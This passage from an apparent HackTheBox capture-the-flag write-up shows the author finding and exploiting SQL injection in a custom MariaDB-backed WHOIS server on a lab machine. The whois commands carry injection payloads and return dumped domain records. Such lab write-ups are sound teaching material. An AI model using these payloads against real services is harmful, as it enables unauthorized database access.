     reserves the right to modify these terms at any time.

    The Registry database contains ONLY .HTB domains and
    --



I'll add the following to my `/etc/hosts` file:



    10.10.10.155 supersechosting.htb www.supersechosting.htb ns1.supersechosting.htb whois.supersechosting.htb



#### SQLI in WhoIs Server

Before I moved on, I realized that the server was advertising a custom
name:



    SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37



That's strange. It also shows it's running SQL. I wonder if I can inject
into it? I'll try a `'`:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb'"
    % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
    % for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
    1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''supersechosting.htb'') limit 1' at line 1



SQL error. nice.

Ok, I'll try to add to the end to make it true for everything. There's
also a hint in the error message above, suggesting there's a `) limit 1`
following my input.



    root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb') or '1'='1'#"



When I run the above, whois information for several sites dump out. To
process it all, I'll write a `grep` that pulls out any domains,
translate them to lowercase, and unique them:



    root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb') or 1=1#" | grep -oiP '[\w\.]{1,50}\.htb' | tr 'A-Z' 'a-z' | sort -u
    justanotherblog.htb
    ns1.supersechosting.htb
    pwnhats.htb
    rentahacker.htb
    supersechosting.htb
    whois.supersechosting.htb
    www.supersechosting.htb
